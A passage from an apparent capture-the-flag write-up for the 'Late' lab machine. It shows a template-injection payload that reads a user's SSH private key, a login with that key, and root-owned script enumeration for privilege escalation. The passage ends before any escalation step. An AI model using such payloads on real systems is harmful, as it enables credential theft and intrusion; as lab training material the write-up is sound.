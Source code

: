 ```python
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read() }}
```

![](https://user-images.githubusercontent.com/60070427/173341895-8e6467df-d9e1-48fb-bf23-622d5e0f0549.png)

we got the private key, we will save the private key in a file with any name and use it to connect. now let's try to connect with the private key 'ssh_auth.txt'

```bash
┌──(kali㉿kali)-[~]
└─$ ssh svc_acc@10.10.11.156 -i my_key.txt
```

and we are in now :).

![](https://user-images.githubusercontent.com/60070427/173342968-685a5ab2-bfcf-4336-a1ed-d9a025d3c2c2.png)

# [+] Privilege Escalation

As the first thing I do is try `sudo -l` to list all available sudo permissions but it was in vain on this machine. so I try LinPEAS.sh and pspy to get all available information about the running process and its permissions without root permissions to view them. and I found that there is a bash script that runs with root permissions called `ssh-alert.sh` and we can read this file contains the following:

```bash
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

this file is a readable and semi-modifiable file cause we can append data to it -but can't open and write inside it directly- we can know this attribute value by using this command.

```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

